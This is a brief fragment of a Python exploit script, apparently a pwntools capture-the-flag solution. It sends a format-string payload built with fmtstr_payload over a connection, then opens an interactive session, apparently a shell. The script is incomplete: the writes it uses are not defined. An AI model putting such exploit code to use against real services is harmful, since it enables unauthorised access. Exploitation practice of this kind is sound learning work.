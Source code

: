 ```python
payload = fmtstr_payload(8, writes)
conn.sendline(payload)

# clean up output
conn.sendline("echo end")
conn.recvuntil("end\n")

conn.interactive()
```
